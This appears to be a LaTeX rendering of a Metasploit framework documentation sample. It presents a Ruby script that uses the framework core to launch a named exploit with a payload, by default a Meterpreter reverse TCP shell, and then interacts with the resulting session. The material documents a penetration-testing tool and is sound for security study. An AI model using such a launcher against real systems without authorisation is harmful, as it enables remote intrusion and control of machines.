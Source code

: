 \documentclass{report}
\begin{document}
        \subsection{Running an exploit using framework core}

\par
This sample demonstrates using the framework core directly to launch
an exploit.  It uses the framework base Framework class so that the
distribution module path is automatically set, but relies strictly
on framework core classes for everything else.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
   'lib'))

require 'msf/base'

if (ARGV.length == 0)
   puts "Usage: #{File.basename(__FILE__)} exploit_name payload_name OPTIONS"
   exit
end

framework    = Msf::Simple::Framework.create
exploit_name = ARGV.shift || 'test/multi/aggressive'
payload_name = ARGV.shift || 'windows/meterpreter/reverse_tcp'
input        = Rex::Ui::Text::Input::Stdio.new
output       = Rex::Ui::Text::Output::Stdio.new

begin
   # Create the exploit driver instance.
   driver = Msf::ExploitDriver.new(framework)

   # Initialize the exploit driver's exploit and payload instance
   driver.exploit = framework.exploits.create(exploit_name)
   driver.payload = framework.payloads.create(payload_name)

   # Import options specified in VAR=VAL format from the supplied command
   # line.
   driver.exploit.datastore.import_options_from_s(ARGV.join(' '))

   # Share the exploit's datastore with the payload.
   driver.payload.share_datastore(driver.exploit.datastore)

   # Initialize the target index to what's in the exploit's data store or
   # zero by default.
   driver.target_idx = (driver.exploit.datastore['TARGET'] || 0).to_i

   # Initialize the exploit and payload user interfaces.
   driver.exploit.init_ui(input, output)
   driver.payload.init_ui(input, output)

   # Fire it off.
   session = driver.run

   # If a session came back, try to interact with it.
   if (session)
      output.print_status("Session #{session.sid} created, interacting...")
      output.print_line

      session.init_ui(input, output)

      session.interact
   else
      output.print_line("Exploit completed, no session was created.")
   end

rescue
   output.print_error("Error: #{$!}\n\n#{$@.join("\n")}")
end
\end{verbatim}}
\end{document}
